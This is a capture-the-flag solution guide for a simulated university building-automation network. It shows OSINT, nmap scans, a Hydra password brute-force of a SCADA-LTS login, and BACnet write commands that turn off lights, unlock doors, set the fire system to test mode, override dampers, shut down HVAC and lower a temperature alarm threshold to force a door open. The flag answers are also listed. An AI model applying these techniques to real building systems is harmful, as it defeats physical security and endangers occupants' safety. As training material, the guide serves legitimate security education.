# BACDoor Access

*Solution Guide*

## Overview

In BACDoor Access, the team is tasked with exploiting their access to a university's building automation control network to steal sensitive research. The team will need to use `BACpypes` or similar tools to craft their own BACnet messages, discovering and modifying BACnet devices on the network. They will also need to familiarize themselves with the `SCADA-LTS` web dashboard and HMI, and perform reconnaissance on the university website.

*The names, pictures, and fake research papers in this challenge were all generated using AI. Any resemblance to real people or research is purely coincidental.*

## Question 1

*Investigate `http://ssu.edu` and find the username of the graduate student who was just getting scolded.*

*Enter the token received from the grader after providing the graduate student's username.*

For this first task, we need to do some simple "OSINT" on the `http://ssu.edu` website. Start by opening `http://ssu.edu` in your browser.


There is not a lot to go off here, no dynamic sections or input, just static HTML.  We can view the admissions and engineering pages by clicking their links in the top left NAV bar.


The admissions page is a complete dead end; it doesn't even have any new links. However, the engineering page has a link to a faculty page, which seems like a promising location to check since we need to identify a faculty member's graduate student. 


Opening the page, we find the listings of the professors, with their name, photo, bio, and links to recent research publications. The first two individuals don't stand out, but Dr. Peter Francis, the department chair, does research on Supervisory Control and Data Acquisition (SCADA) systems, including `secure facility access`. SCADA systems monitor and control the various sensors and devices in an industrial process, and while building automation is not strictly industrial, many of the same underlying technology and protocols are used. This includes the Building Automation and Control network protocols (BACnet) that we will be exploiting for this challenge. 



If we download and [view the PDF](../challenge/ssu_web/web/papers/fire_safety_scadalts.pdf), we find it is a standard, two-column research paper. However, the topic is of particular interest to us, as it describes how they have deployed the open-source SCADA-LTS application to manage their building automation control.



As this paper seems to describe the very network we currently have access to, we should keep this for later in case we need it (in particular, there is a diagram on the second page we will need for the final token). For now, though, checking the authors, we see an entry for Dr. Francis, but the first author is a name we don't recognize, `Maxwell Lin`. We can reasonably conclude that this is a student of Dr. Francis, and might just be the student we encountered in the hallway. His email on the paper is listed as `MLin2@ssu.edu`.

Let's try that as the username (dropping the `@ssu.edu`) in the grader. Visit `http://challenge.pccc` and enter `MLin2` into the textbox.



In this case, the token is `PCCC{Max_UNwell_33TR58}`.

## Question 2

*Find the SCADA control dashboard and log in as the graduate student. The token is displayed on the HMI in the maintenance room you are hiding in.*

With the username identified, we now need to gain access to the SCADA dashboard and inspect the Human Machine Interface (HMI) that connects to the building. However, we still haven't investigated the network, so let's do that first.  Using `nmap`, let's scan the network and see what devices are available with `nmap {YOUR_IP}/26`. Use `ip a` to find your IP address.

```bash
nmap 10.0.70.13/26
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-17 10:02 UTC
Nmap scan report for ip-10-0-70-1.ec2.internal (10.0.70.1)
Host is up (0.0000050s latency).
All 1000 scanned ports on ip-10-0-70-1.ec2.internal (10.0.70.1) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 12:50:6E:24:22:CF (Unknown)

Nmap scan report for 17-scadalts-20.competitor_net-17-20 (10.0.70.2)
Host is up (0.000010s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:0A:00:46:02 (Unknown)

Nmap scan report for ip-10-0-70-3.ec2.internal (10.0.70.3)
Host is up (0.0000080s latency).
All 1000 scanned ports on ip-10-0-70-3.ec2.internal (10.0.70.3) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:03 (Unknown)

Nmap scan report for 17-englights-20.competitor_net-17-20 (10.0.70.4)
Host is up (0.0000080s latency).
All 1000 scanned ports on 17-englights-20.competitor_net-17-20 (10.0.70.4) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:04 (Unknown)

Nmap scan report for 17-enghvac-20.competitor_net-17-20 (10.0.70.5)
Host is up (0.0000080s latency).
All 1000 scanned ports on 17-enghvac-20.competitor_net-17-20 (10.0.70.5) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:05 (Unknown)

Nmap scan report for 17-security-20.competitor_net-17-20 (10.0.70.6)
Host is up (0.0000090s latency).
All 1000 scanned ports on 17-security-20.competitor_net-17-20 (10.0.70.6) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:06 (Unknown)

Nmap scan report for 17-firesafety-20.competitor_net-17-20 (10.0.70.7)
Host is up (0.0000090s latency).
All 1000 scanned ports on 17-firesafety-20.competitor_net-17-20 (10.0.70.7) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:07 (Unknown)

Nmap scan report for 17-powermonitoring-20.competitor_net-17-20 (10.0.70.8)
Host is up (0.0000080s latency).
All 1000 scanned ports on 17-powermonitoring-20.competitor_net-17-20 (10.0.70.8) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:08 (Unknown)

Nmap scan report for 17-weather-20.competitor_net-17-20 (10.0.70.9)
Host is up (0.0000080s latency).
All 1000 scanned ports on 17-weather-20.competitor_net-17-20 (10.0.70.9) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:09 (Unknown)

Nmap scan report for 17-serverroom-20.competitor_net-17-20 (10.0.70.10)
Host is up (0.0000080s latency).
All 1000 scanned ports on 17-serverroom-20.competitor_net-17-20 (10.0.70.10) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 02:42:0A:00:46:0A (Unknown)

Nmap scan report for 17-grader-20.competitor_net-17-20 (10.0.70.12)
Host is up (0.000025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:0A:00:46:0C (Unknown)

Nmap scan report for 17-ssu_web-20.competitor_net-17-20 (10.0.70.14)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:0A:00:46:0E (Unknown)

Nmap scan report for 37a6aaacc678 (10.0.70.13)
Host is up (0.0000060s latency).
All 1000 scanned ports on 37a6aaacc678 (10.0.70.13) are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 256 IP addresses (13 hosts up) scanned in 2.30 seconds
```

From this output, we can see 9 interesting hosts (not including ourselves and the grader). Most of them are BACnet devices (at least, we can assume from the challenge description and their names); they don't show any TCP ports open, which is to be expected for BACnet devices as BACnet uses UDP. You can try to scan the default UDP port for BACnet (`47808`) on the `10.0.70.4` device in this example (named `engLights`, so the lights in the engineering building), however this is very unreliable compared to TCP port scanning, as UDP lacks a handshake; in the example below, the port was correctly flagged as `open|filtered`, but your results may be falsely reported as `closed`.

```bash
nmap -sU -p 47808 10.0.70.4
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-17 10:04 UTC
Nmap scan report for 17-englights-20.competitor_net-17-20 (10.0.70.4)
Host is up (0.000097s latency).

PORT      STATE         SERVICE
47808/udp open|filtered bacnet
MAC Address: 02:42:0A:00:46:04 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
```

As mentioned before, this doesn't guarantee the port is actually open, but it seems extremely likely in context. With so many devices (and later, so many objects in each device), we should take some good notes on our BACnet devices. For example, the following are my brief notes on the discovered devices.

The following are *example* IP addresses in our example, yours may be different: 

- Engineering lights (engLights): `10.0.70.4`
- Engineering HVAC (enghvac): `10.0.70.5`
- Security (security): `10.0.70.6`, exact purpose unclear at the moment, but probably important
- Fire safety (firesafety): `10.0.70.7`
- Power monitoring system (powermonitoring): `10.0.70.8`
- Weather (weather): `10.0.70.9`
- Server room (serverroom): `10.0.70.10`, exact purpose unclear but probably related to our target

With those documented, we can continue searching the list for our SCADA dashboard. The last service is really promising; named `scadalts` on `10.0.70.2`, it has an open `http-proxy` service on `8080`.

Let's open that in our browser using either your assigned IP address for the device or the domain name (the domain name is not given or necessary, but can be inferred from the `nmap` data). We use the domain name where possible so it can be easily copied: `http://scadalts.pccc:8080`. 



Unfortunately, we get a `404` error from Apache Tomcat. It is pretty common for Tomcat web apps, especially when loading a `WAR` file (which we can confirm SCADA-LTS uses by checking their Github), so we need to find the right path. Checking their [wiki](https://github.com/SCADA-LTS/Scada-LTS/wiki), we can see the path is `Scada-LTS`; add that to the end of your URL `http://scadalts.pccc:8080/Scada-LTS`. The browser will redirect us to the login page, shown below.



You can try the default credentials `admin` / `admin` if you'd like, but that account has been secured. Instead, it's time to use the identified username from the first part of the challenge. The student uses a weak password, so let's try Hydra with the provided simple wordlist found on the Desktop or the home directory. Note we use the phrase "Bad credentials" to recognize a failed login as that is contained in the incorrect login message.

```bash
hydra -l MLin2 -P /home/user/wordlist.txt scadalts.pccc -s 8080 http-post-form "/Scada-LTS/login.htm:username=^USER^&password=^PASS^:Bad credentials"
```



Hydra finds the password `password123`! Revisit the login page and enter `MLin2` and `password123` as the credentials. You'll be greeted with the Watch List page, a dashboard that allows you to select points and monitor their values in real time. Feel free to look through the list of points, but for this token, we want to find the HMI that shows our token. Select the "Graphical Views" button, shown in the screenshot.



The graphical view menu opens by default to the "Engineering F1" view, shown in the select menu near the top of the page. This view shows the status of the lights, A/C, and other data for the first floor of the engineering building. 



Using the select menu at top, change "Engineering F1" to "Engineering F3", where we are currently hiding according to the challenge description, or take a look at the other views first.



Hey, I can see my location from here! Near the bottom of the floor plan for the third floor, you'll find the maintenance room you are "hiding in", and the token in green letters (you can select and copy this text, it's not an image). Note that the text is too long for the text box it is in, but it is still selectable; it even has a scroll bar, shown selected in the image.

In this case, the token was `PCCC{HMI_hacked_maxwells_insecurepassword123_99UM32}`.

## Question 3

*Get the professor to leave the lab by causing chaos; disable all the lights in the main lecture room.*

With our access to the HMI, the layout makes more sense on what we need to do. From the maintenance room, we can see the server room is right next door, and Lab 301 is a little bit further down the hall. Both doors have a little red light next to a lock symbol indicating they are locked. The professor is still in the lab, so we need to get him to leave. We can do this by causing chaos in the lecture hall where his student is currently teaching (poor guy just finished getting lectured, and now his day is about to get even worse!)

Checking our list of devices discovered during Question 2, we did not identify anything about the lecture hall. Unfortunately, we do not have direct access to those devices, as they are not in this building, and thus on a different subnet. However, we can see them in Scada-LTS since that has access to both networks. Open the "Lecture Hall - Lights" graphical view, shown below.



We can see the lecture hall floorplan, with the actual lecture room on the right side. There are five lights in the room; we need to disable all of them. In the middle of the HMI, there is an "OFF" button. Pressing this, we see that it turns off the main overhead light.



Unfortunately, none of the other lights in the room have buttons. We will need to write to those points manually. Return to the "Watch list" we saw when we first logged in by clicking the monitor button in the top left next to the "Graphical Views" button we clicked in Question 2. On the left are all the points we have read/write access to. Conveniently, all of the lighting for the lecture hall is contained in a folder. You can use the green arrow to add them to the watch list.



The lights we need can likely be determined by their name, but you can always change a value and then refer back to the map to see what changed. The image shared above shows the names of all five lights:

- Lecture Hall - LHLC - Accent/Presentation Lighting
- Lecture Hall - LHLC - Lecture Room Aisle Lights (Safety, Always On)
- Lecture Hall - LHLC - Lecture Room Front Stage Lights
- Lecture Hall - LHLC - Lecture Room Overhead Lights
- Lecture Hall - LHLC - Lecture Room Rear Zone Lights

We can also see the overhead lights have a value of 0, since we already turned those off with the button. To change these values, we can select the Wrench icon next to them, and change the 1 to a zero. Note you need to change the value, hit set, then double-click the box to close it (double-clicking set works as well). 



Go ahead and change all the values you can to 0. Unfortunately, one of the lights, the aisle safety lights, cannot be modified! Instead of turning off the light, we can fully dim it. If you check the point list again, you'll find a dimmer for the light. Add it to the list, and change the value to 0 again.



With that done, let's double-check the graphical view before running the grader.



All of the lights now show as off except for the aisle safety lights, which instead show the dimmer set to 0.0%. The room is now pitch black!

Time to run the grader by visiting `http://challenge.pccc` and clicking the "Submit" button. Note you can leave the text box empty since we already earned the token for finding the username.



In this case, the token was `PCCC{Scared_of_the_dark_52LO94}`

## Question 4

*Find a token hidden in one of the BacNet devices in the engineering building.*

**Just in case they change in the future, a copy of all of the bacpypes scripts linked/mentioned in this section can be found in the [scripts](./scripts) folder**

For the fourth token, we will need to begin exploring the data available in the engineering BACnet devices. 

As a little background, BACnet devices consist of a set of objects, where each object has its own properties. Each object is identified by its type and a number. For example, one of the lights from Question 3 might be identified as `BinaryOutput:1`, where `BinaryOutput` is the type and `1` is the instance number. This `BinaryOutput:1` object in the BACnet device would have a list of properties which can be read; some examples include the name, units (e.g., temperature, for analog values), and `presentValue`, which contains the current value of the object. For more information, check out [this description](https://www.domat-int.com/en/bacnet-brief-introduction-to-basics-part-1) which I found helpful when starting to develop this challenge.

Two potential tools we can use are the Python libraries `BAC0` and `bacpypes`. The `BAC0` is essentially a more friendly wrapper for `bacpypes` (that is, `BAC0` uses `bacpypes`) but I didn't have much success with `BAC0`, so this guide will use `bacpypes` (this might be because I had more experience from having to create all the devices in `bacpypes`). Both of these libraries can be complex, and the limited documentation makes it harder (and AI regularly gave me incorrect answers due to this). Fortunately, the [Github repo](https://github.com/JoelBender/bacpypes/tree/master/samples) for `bacpypes` has samples for us to use; we don't need to write the code entirely from scratch. The hard part will be figuring out which samples we need and getting them to run with vague documentation! The research paper we found earlier also mentions these scripts to hint towards using them: "The integration was tested and confirmed to be functional using the provided samples from the BacPypes Python library public repository."

In order to successfully read a value, we need to know a couple of things:

1. The IP Address of the device
2. The device instance (this is an ID for the whole device, similar, but distinct, from the object instance)
3. The object type
4. The object instance
5. The name of the property

The first value, the IP Address, is easy to get; we already have them from running `nmap`!

We can find the device instance by creating a `WhoIs` BACnet request. When broadcasted, any BACnet devices that receive it will respond with an `IAm` message that describes them. The `bacpypes` samples include a script to do this at https://github.com/JoelBender/bacpypes/blob/master/samples/WhoIsIAm.py. Go ahead and copy that script into our Kali machine.



Running the script, we get an error: `RuntimeError: INI file with BACpypes section required`. We need to provide the script with an `ini` file. We can also find a sample of that at https://github.com/JoelBender/bacpypes/blob/master/BACpypes~.ini. Copy that file, but name it `BACpypes.ini` without the `~`. The only thing we need to change in the `ini` file for our purposes is the address. Change the address line to contain the IP of your Kali instance; here, it is `10.0.70.13` 

```none
[BACpypes]
objectName: Betelgeuse
address: 10.0.70.13
objectIdentifier: 599
maxApduLengthAccepted: 1024
segmentationSupported: segmentedBoth
vendorIdentifier: 15
foreignBBMD: 128.253.109.254
foreignTTL: 30
```

Note that we will continue to need to replace the IP addresses, as domain names are not supported. Going forward, this will not be mentioned explicitly; for any listed IP addresses in the commands, you will need to update them to match the IP address assigned in your instance.

BACPypes uses our IP address to open a BACnet server that it then uses to communicate with the other devices on the network. The `objectName` and `objectIdentifier` are the name and ID that our BACnet server will be recognized by (although this does not matter for us since we only want to query, not respond). The remaining fields are communication configuration (e.g., max message length and broadcast management) that we don't need to worry about; the defaults are sufficient. 

Note that the subnet mask should be removed or set to `/0` so that the default global broadcast address of `255.255.255.255` is used. A subnet mask of `/24` is insufficient. **Note that this can also be found hinted at in the research document we found in Question 1: "Device discovery was performed using BACnet global broadcast management..."**

Now, let's run the command with `python WhoIsIAm.py`. The script will present a "console" input; to run the `WhoIs` command, simply type `whois`. You'll receive the following output (although the response order will likely differ). Note that you end the program with `<CTRL+D>` (EOF).

```bash
python WhoIsIAm.py 
> whois
> pduSource = <Address 10.0.70.4>
iAmDeviceIdentifier = ('device', 2001)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.5>
iAmDeviceIdentifier = ('device', 2101)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.10>
iAmDeviceIdentifier = ('device', 3005)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.6>
iAmDeviceIdentifier = ('device', 2201)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.9>
iAmDeviceIdentifier = ('device', 3003)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.7>
iAmDeviceIdentifier = ('device', 3001)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
pduSource = <Address 10.0.70.8>
iAmDeviceIdentifier = ('device', 3002)
maxAPDULengthAccepted = 1024
segmentationSupported = segmentedBoth
vendorID = 999
Exiting...
```

We already had the IP addresses, but now we have the instance identifiers. Let's add those to our notes:

- Engineering lights (engLights): `10.0.70.4`, `2001`
- Engineering HVAC (enghvac): `10.0.70.5`, `2101`
- Security (security): `10.0.70.6`, `2201`
- Fire safety (firesafety): `10.0.70.7`, `3001`
- Power monitoring system (powermonitoring): `10.0.70.8`, `3002`
- Weather (weather): `10.0.70.9`, `3003`
- Server room (serverroom): `10.0.70.10`, `3005`

With the devices identified, the next thing we need is the object types and instances. There is another sample script to do exactly that: https://github.com/JoelBender/bacpypes/blob/master/samples/ReadObjectList.py. Copy that file over as well, and try running it to get the following usage instructions.

```bash
python ReadObjectList.py
usage: ReadObjectList.py [-h] [--buggers] [--debug [DEBUG ...]] [--color] [--route-aware] [--ini INI] device_id device_addr
ReadObjectList.py: error: the following arguments are required: device_id, device_addr
```

Fortunately, we have both of the arguments this command needs. Let's try it out on the lights first, since we have some familiarity with those from the previous question: `python ReadObjectList.py 2001 10.0.70.4`.

```none
python ReadObjectList.py 2001 10.0.70.4
('device', 2001): Engineering Building Lighting Controller
('binaryOutput', 1): EBLC - Classroom 101 Lights
('binaryOutput', 2): EBLC - Classroom 102 Lights
('binaryInput', 1): EBLC - Classroom 101 Occupancy
('binaryInput', 2): EBLC - Classroom 102 Occupancy
('binaryValue', 1): EBLC - Classroom Manual Override
('binaryOutput', 3): EBLC - Office Corridor Lights
('binaryOutput', 4): EBLC - Dean's Office Lights
('binaryOutput', 5): EBLC - Faculty Office Lights
('binaryInput', 3): EBLC - Dean's Office Occupancy
('binaryInput', 4): EBLC - Faculty Area Motion
('binaryValue', 2): EBLC - Office Manual Override
('binaryOutput', 6): EBLC - Lab 301 Lights
('binaryOutput', 7): EBLC - Lab 302 Lights
('analogOutput', 1): EBLC - Lab 301 Brightness
('analogOutput', 2): EBLC - Lab 302 Brightness
('binaryInput', 5): EBLC - Lab 301 Occupancy
('binaryInput', 6): EBLC - Lab 302 Occupancy
('binaryOutput', 8): EBLC - Floor 1 Bathroom Lights
('binaryOutput', 9): EBLC - Floor 2 Bathroom Lights
('binaryOutput', 10): EBLC - Floor 3 Bathroom Lights
('binaryInput', 7): EBLC - Bathroom Floor 1 Occupancy
('binaryInput', 8): EBLC - Bathroom Floor 2 Occupancy
('binaryInput', 9): EBLC - Bathroom Floor 3 Occupancy
('binaryOutput', 11): EBLC - Engineering Building Lobby Lights
('binaryOutput', 12): EBLC - Engineering Stairwell Lights
('binaryInput', 10): EBLC - Lobby Occupancy
('binaryInput', 11): EBLC - Stairwell Motion Detection
('binaryOutput', 13): EBLC - Server Room Lights
('binaryInput', 12): EBLC - Server Room Occupancy
('binaryOutput', 14): EBLC - Maintenance Room Lights
('binaryInput', 13): EBLC - Maintenance Room Occupancy
```

<details>
<summary>How is this done?</summary>


Checking lines 78-82 of the script, we can see this is actually accomplished by reading a property off the device called `objectList`. The device is really just a special class of object, and has its own properties that can be read. 

In fact, the device object is returned as the first item of the objectList; that's why the name of the device is printed in the output.

```python
# Lines 78-82
request = ReadPropertyRequest(
    destination=context.device_addr,
    objectIdentifier=context.device_id,
    propertyIdentifier='objectList',
)

# Lines 141-145
request = ReadPropertyRequest(
    destination=context.device_addr,
    objectIdentifier=object_id,
    propertyIdentifier='objectName',
)
```

</details>

Now you should go through, and pull the contents of each device. Eventually, you should find the following from the weather device with `python ReadObjectList.py 3003 10.0.70.9`. 

```none
python ReadObjectList.py 3003 10.0.70.9
('device', 3003): Weather Station
('analogInput', 1): WS - Outdoor Air Temperature
('analogInput', 2): WS - Relative Humidity
('analogInput', 3): WS - Wind Speed
('analogInput', 4): WS - Solar Radiation
('binaryInput', 1): WS - Rain Detected
('characterstringValue', 1): token
```

Nice, the weather device contains a `token` Object. We just need a way to read it.

Now the last thing we need to be able to fully read an object is the name of the property we want to read. The available properties depend on the Object type, and lists of the properties can be found online. For example, this document lists all of the properties for the analog input: https://bacnet.org/wp-content/uploads/sites/4/2022/06/The-Language-of-BACnet-1.pdf. The following is an exhaustive (and less readable) list from the BACpypes source code: https://github.com/JoelBender/bacpypes/blob/master/py34/bacpypes/object.py

We don't know which property the token will be in, but `presentValue` is a good place to start. We will need one final script from `bacpypes` to get this: https://github.com/JoelBender/bacpypes/blob/master/samples/ReadWriteProperty.py

Run the script with `python ReadWriteProperty.py`, then enter `read 10.0.70.9 characterstringValue:1 presentValue` into the console to retrieve the value.



In this case, the token was `PCCC{Weather_is_my_specialty_40rN62}`.

<details>
<summary>Why didn't we just use Scada-LTS?</summary>

Scada-LTS could be used to look up this value if we had admin access, but we don't have that. Scada-LTS allows us to limit read/write by object/point. However, this point hasn't even been registered with Scada-LTS; as far as it is concerned, it doesn't exist. In fact, the characterstringValue is not even recognized by Scada-LTS and is considered vendor specific. Here is a screenshot showing that Scada-LTS can detect and add it, but needs special processing.



</details>

## Question 5

*You need to grab any physical documents from the lab. Use the BACnet access to unlock the lab door.*

This next token won't be too much more work after Question 4 since the only thing we haven't done with `bacpypes` yet is perform a write. We already have the script to do that, though.

First, we need to figure out how the locks work. During Question 2, we saw those red lights and lock symbols on the HMI, but the names of those points were labelled. We could search through the point list on Scada-LTS, or we can do it using our BACnet script. Note however, if you do look in Scada-LTS, that all of the values belonging to the engineering building are not writeable; our account simply does not have the correct permissions!

Whichever way you do it, you'll eventually find an object named `SDC - Lab 301 Door Lock`. Using our `ReadObjectList.py`, we can see it below: `python ReadObjectList.py 2201 10.0.70.6`.

```bash
python ReadObjectList.py 2201 10.0.70.6
('device', 2201): Security Door Controller
('binaryOutput', 1): SDC - Lab 301 Door Lock
('binaryInput', 1): SDC - Lab 301 Door Sensor
('binaryInput', 2): SDC - Lab 301 REX Button
('multiStateInput', 1): SDC - Lab 301 Access Status
('binaryOutput', 2): SDC - Main Entrance Lock
('binaryInput', 3): SDC - Main Entrance Door Sensor
('multiStateInput', 2): SDC - Main Entrance Access Status
('binaryInput', 4): SDC - Server Room Door Lock
```

The type `binaryOutput` should be writeable, so we should be able to simply overwrite the value of the lock using the `ReadWriteProperty.py` script. However, one important thing to note is that Bacpypes uses `inactive`/`active` instead of `0`/`1` for their binary objects. The format for the write command will be `write {addr} {type:instance} {property} {value}`. So, our command will be `write 10.0.70.6 binaryOutput:1 presentValue inactive`.

```bash
python ReadWriteProperty.py 
> write 10.0.70.6 binaryOutput:1 presentValue inactive
ack
> read 10.0.70.6 binaryOutput:1 presentValue
inactive
```

We just receive an acknowledgement from our write, but running a read afterward, we can see the value was indeed updated to inactive. Let's check the HMI to double-check, then run the grader.



Unlike before, that bright red light is now off! Visit `http://challenge.pccc` to run the grader.



In this case, the token is `PCCC{Open sesame_33pk57}`.

## Question 6

*The server room is much more secure. Use BacNet to get in the server room by tampering with the fire and server room devices.*

During Question 5, you might've noticed the security device had the server room lock listed as `('binaryInput', 4): SDC - Server Room Door Lock`. Unlike binary outputs, binary inputs are not writeable. Trying gives the following output:

```bash
python ReadWriteProperty.py
> read 10.0.70.6 binaryInput:4 presentValue
active
> write 10.0.70.6 binaryInput:4 presentValue inactive
property: writeAccessDenied
```

Now we will really need to refer back to the research paper. Take a look at the page with the diagrams at the top. [View the PDF](../challenge/ssu_web/web/papers/fire_safety_scadalts.pdf)



While the graph on the right is a bit silly, the diagram on the left provides a "Workflow for Server Room Door Opening in Emergency Personnel". Ignoring my poor grammar there, it appears that the server room door is designed to unlock if there is a fire to allow emergency personnel to enter. The paragraph immediately below has more details, including a bullet list of exactly what we need to do to trigger the "catastrophic failure" and open the server room door (how convenient)! Those steps are:

1. Raising the temperature of the server room above the alarm threshold
2. Raising a test fire signal (we can't signal a real one, and a drill would just bring us unwanted attention)
3. Overriding the smoke dampers
4. Disabling the HVAC system

Armed with that knowledge, let's take a look at the fire safety device: `10.0.70.7`, `3001`. Use the `ReadObjectList.py` script from before:

```bash
python ReadObjectList.py 3001 10.0.70.7
('device', 3001): Fire & Life Safety
('binaryInput', 1): FLS - Lecture Hall Fire Alarm State
('binaryInput', 2): FLS - Engineering Fire Alarm State
('binaryValue', 1): FLS - Smoke Damper Override
('multiStateOutput', 1): FLS - Fire System Mode
('binaryOutput', 1): FLS - HVAC Shutdown Command
```

In this listing, we can see three writable values: the smoke damper override, the fire system mode, and the HVAC Shutdown command. That's three of the four things we need. Let's change those, then come back for the last one.

Let's tackle the problematic one first. We haven't seen a `multiStateOutput` before, so let's look at the `Fire System Mode`. Let's use `ReadWriteProperty` once more!

```bash
python ReadWriteProperty.py
> read 10.0.70.7 multiStateOutput:1 presentValue
1
```

So, we know the Fire System Mode is set to mode `1`, but we have no idea what that means. Checking online (e.g., [this doc from Johnson Controls](https://docs.johnsoncontrols.com/bas/api/khub/documents/1ZLlrvNMiSZ2YnQkd~gD0A/content) or the [bacpypes implementation](https://github.com/JoelBender/bacpypes/blob/master/py34/bacpypes/object.py#L2258)), you'll find a "stateText" property, which is described as optional but contains text describing the various states. Let's try reading that:

```bash
python ReadWriteProperty.py
> read 10.0.70.7 multiStateOutput:1 presentValue
1
> read 10.0.70.7 multiStateOutput:1 stateText
['Normal', 'Test', 'Drill', 'Service']
>
```

Great! Now we know what the states are. The array is 1-indexed (0 means error), so the mode is currently `Normal`. Let's change it to `Test` with state 2.

```bash
python ReadWriteProperty.py
> read 10.0.70.7 multiStateOutput:1 presentValue
1
> write 10.0.70.7 multiStateOutput:1 presentValue 2
ack
> read 10.0.70.7 multiStateOutput:1 presentValue
2
```

The smoke damper and HVAC shutdown are commands we are already familiar with. Find out their starting value, and flip it. In this case, we change them both to `active`.

```bash
 python ReadWriteProperty.py
> read 10.0.70.7 binaryOutput:1 presentValue
inactive
> read 10.0.70.7 binaryValue:1 presentValue
inactive
> write 10.0.70.7 binaryOutput:1 presentValue active
ack
> write 10.0.70.7 binaryValue:1 presentValue active
ack
> read 10.0.70.7 binaryOutput:1 presentValue
active
> read 10.0.70.7 binaryValue:1 presentValue
active
```

That just leaves the temperature. If we check the objects in the server room (`10.0.70.10`, `3005`), we get the following list of objects:

```bash
python ReadObjectList.py 3005 10.0.70.10
('device', 3005): Server Room Monitor
('analogInput', 1): SRM - Rack Temp Sensor
('analogInput', 2): SRM - Supply Air Temp
('analogOutput', 1): SRM - High Temp Alarm Threshold
('binaryInput', 1): SRM - Door Contact (Cabinet Access)
('binaryInput', 2): SRM - UPS On Battery
('binaryInput', 3): SRM - AC Power Status
```

Like with aisle lights in Question 2, we will need to be clever with this one. The temperature sensors are both inputs, and thus cannot be written to. In fact, the only value we can write to is the High Temp Alarm Threshold. Decreasing the threshold below the current temperature will cause the alarm to signal, which is all we actually need to occur.

First, let's read the value:

```bash
python ReadWriteProperty.py
> read 10.0.70.10 analogOutput:1 presentValue
89.5999984741211
```

While we haven't seen a `analogOutput` before, it is simply a floating point value, and doesn't require anything special. Let's now modify it to a much lower threshold, like `40.0`.

```bash
python ReadWriteProperty.py
> read 10.0.70.10 analogOutput:1 presentValue
89.5999984741211
> write 10.0.70.10 analogOutput:1 presentValue 40.0
ack
> read 10.0.70.10 analogOutput:1 presentValue
40.0
```

Checking the HMI for the third floor, you should see the security door for the server room is now unlocked.



With the door successfully opened, we can now run the grader by visiting `http://challenge.pccc` and get our final token.



In this case, the token is `PCCC{Fire_ENTRANCE_Door_83qZ93}`.